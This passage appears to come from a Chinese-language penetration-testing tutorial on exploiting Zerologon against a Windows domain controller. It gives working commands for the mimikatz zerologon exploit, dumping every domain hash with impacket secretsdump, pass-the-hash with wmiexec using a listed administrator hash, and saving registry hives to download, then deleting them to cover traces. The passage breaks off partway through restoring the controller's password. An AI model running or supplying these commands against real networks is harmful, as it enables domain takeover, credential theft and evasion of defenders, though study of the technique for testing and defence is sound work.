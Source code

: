 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptLyzo1kOu0YVeicnyWSjJlyuAcN2AOxcpl2e1wia9B18KOc7GvpvSx5kQ/640?wx_fmt=png&from=appmsg "")  
- 执行mimikatz的机器不在域内  
```
//如果当前主机不在域环境中，target参数就需要指定域控的ip
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:10.10.1.228 /ntlm /null /account:AD-server2016$ /exploit" "exit"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptYdPibrzHcBia8icZWibibibe0oTibTmcJicUdK8ot84r94DibgM48Dl9W5Q60zw/640?wx_fmt=png&from=appmsg "")  
## 导出域内所有用户的凭证（Hash）  
- 使用impacket工具包  
```
//注意： -no-pass前面有4个空格
python secretsdump.py 域名/域控机器名$@域控ip    -no-pass
secretsdump.exe lazy.com/AD-server2016$@10.10.1.228    -no-pass
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptJlbt0KFujNnZqIriaDYYtq0Sia0L4jGZxKcooRDrUxLUqPicwypdK0z5w/640?wx_fmt=png&from=appmsg "")  
- 此时即可拿到域管Hash，然后通过wmi进行Hash传递  
```
wmiexec.exe -hashes :80d51c5ba46d91d55b9a6008417637a5 lazy.com/Administrator@10.10.1.228
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptjh0yWaRneOGj88qYanMnnuxZfNtrn3Cs4fjAXjibaichADeCWU1Ad9JA/640?wx_fmt=png&from=appmsg "")  
## 恢复密码  
- 攻击完成后会将域控机器账号的Hash置空，此时域控的机器账号在活动目录中的密码和域控本地注册表以及lsass进程中的密码不一样，就会导致域控重启后无法开机、甚至出现脱域的情况  
- 所以要恢复域控机器账号的密码，让域控在活动目录中的密码和在域控本地注册表以及lsass进程中的密码一致。  
- 可以通过提取注册表文件和NTLM Hash值恢复域控密码  
### 恢复方式1：导出注册表文件  
- 提取域控上的注册表文件  
```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/t88ugf2jgYDoTSiamhXbcr8CNtH33kkptrQW6XjafbNBVY7o1CFYGDiaxc2ckezcuIqQavtUQ3KVicvZQclsCZUFg/640?wx_fmt=png&from=appmsg "")  
- 利用impacket工具包自带的命令工具（get）将提取的文件下载下来  
```
//下载
get system.save
get sam.save
get security.save

//删除痕迹，将刚刚提取的文件从域控上删掉
del /f system.save
del /f sam.save
del /f security.save
```  
  